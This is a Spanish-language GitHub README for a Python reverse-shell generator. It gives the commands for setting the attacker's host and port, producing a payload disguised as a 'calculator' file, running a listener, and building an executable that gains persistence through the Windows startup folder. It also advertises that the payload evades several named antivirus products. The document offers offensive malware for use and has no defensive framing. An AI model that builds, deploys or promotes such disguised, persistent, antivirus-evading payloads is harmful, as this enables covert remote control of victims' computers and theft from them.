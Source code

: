 # Reverse Shell

Proyecto que consiste en generar un payload de reverse shell en python, el cual se ejecuta en la máquina objetivo y se conecta a un servidor controlado por el atacante.

- [Reverse Shell](#reverse-shell)
  - [Requisitos](#requisitos)
  - [Instalación](#instalación)
  - [Uso](#uso)
  - [Comandos](#comandos)
  - [Ejemplos](#ejemplos)
    - [Payload](#payload)
    - [Servidor en escucha](#servidor-en-escucha)
    - [Autoexe](#autoexe)
  - [Pruebas realizadas en antivirus](#pruebas-realizadas-en-antivirus)
  - [Resultados de virustotal.com](#resultados-de-virustotalcom)
  - [Capturas](#capturas)

## Requisitos

- ![Static Badge](https://img.shields.io/badge/Python-^3.12-yellow?logo=python&logoColor=white)

## Instalación

Clona el repositorio

```bash
git clone https://github.com/epmyas2022/reverse_shell.git
```

Entra al directorio del proyecto

```bash
cd reverse_shell
```

Instala las dependencias

```bash
pip install -r requirements.txt
```

## Uso

```bash
python reverse_shell.py
```

## Comandos

- `help`: Muestra la lista de comandos disponibles.
- `generate`: Genera un payload de reverse shell en python.
- `execute`: Inicia un servidor que escucha las conexiones de los payloads generados.
- `autoexe`: Genera un exe que creara una copia del payload en la carpeta de inicio de Windows.
- `set`: Establece el valor de una variable.
- `exit`: Salir del programa.

## Ejemplos

Generar un payload de reverse shell especificando la dirección IP y el puerto del servidor

El siguiente comando setea la direccion IP del payload:

### Payload

```bash
set generate.lhost 10.0.0.20
```

El siguiente comando setea el puerto del payload:

```bash
set generate.lport 4444
```

El siguiente comando genera el payload:

```bash
generate
```

![Reverse Shell Generate Command](./images/payload.png)

Los payloads generados se guardan en la carpeta raíz del proyecto. con el siguiente nombre: `calculator-{timestamp}`

### Servidor en escucha

Iniciar el servidor que escucha las conexiones de los payloads generados

El siguiente comando setea el puerto del servidor:

```bash
set session.lport 4444
```

El siguient comando setea el host del servidor:

```bash
set session.lhost 10.0.0.20
```

El siguiente comando inicia el servidor:

```bash
execute
```

![Reverse Shell Execute Command](./images/execute.png)

Para detener la escucha del servidor, presiona `Ctrl + C`

Para salir de la sesión, ejecuta el comando `exit`

### Autoexe

Generar un autoexe creara una copia del payload en la carpeta de inicio de Windows.

Antes que nada, se debe generar un payload.

El siguiente comando setea el nombre del archivo:

```bash
set windows.autoexe.path <nombre_del_payload>
```

El siguiente comando genera el autoexe:

```bash
autoexe
```

![Reverse Shell Autoexe Command](./images/autoexe.png)

## Pruebas realizadas en antivirus

✅ = No detectado
❌ = Detectado

- Windows Defender [✅]
- Avast [✅]
- ESETNOD32 [✅]
- McAfee [✅]
- Bitdefender [✅]
- Bkav Pro [❌]
- SecureAge [❌]
- Kaspersky [❌]
- Skyhigh (SWG) [❌]

## Resultados de virustotal.com

Ver resultado de [Payload]("https://www.virustotal.com/gui/file/a3529b34abafcf1bb4ae8bebb464d7a79a22ea1bd9a14dfdd53072edd2d28911")
  
Ver resultado de [Autoexe]("https://www.virustotal.com/gui/file/9988d8ba90ad03359e79be815032e616d1f76432a12208c659b1cd2a8a719f7b/detection")

## Capturas

![Reverse Shell](./images/image.png)
